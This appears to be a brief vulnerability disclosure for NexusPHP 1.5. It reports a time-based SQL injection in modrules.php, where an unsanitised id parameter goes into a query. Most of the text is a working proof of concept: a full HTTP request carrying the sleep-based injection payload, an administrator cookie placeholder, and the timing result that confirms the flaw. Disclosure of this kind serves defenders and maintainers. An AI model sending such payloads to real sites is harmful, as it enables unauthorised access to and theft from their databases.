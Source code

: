 # by burpheart


Need get the administrator's identity to complete the attack.

#### Affected software: NexusPHP 1.5

#### Software Download Link: http://sourceforge.net/projects/nexusphp/
  
#### Github Repository https://github.com/ZJUT/NexusPHP

##  Vulnerability details

#### modrules.php:line 42

```	
	$res = @mysql_fetch_array(@sql_query("select * from rules where id='$id'"));
```
#### exploit:
```
GET /modrules.php?act=edit&id=1%27%20and%20sleep(2)%23 HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:79.0) Gecko/20100101 Firefox/79.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Cookie: administrator_cookies
Upgrade-Insecure-Requests: 1
Pragma: no-cache
Cache-Control: no-cache

```

/modrules.php?act=edit&id=1%27%20and%20sleep(2)%23

The return will be delayed for 2 seconds  

/modrules.php?act=edit&id=1%27%20and%20sleep(0)%23

The return will be delayed for 0 seconds  
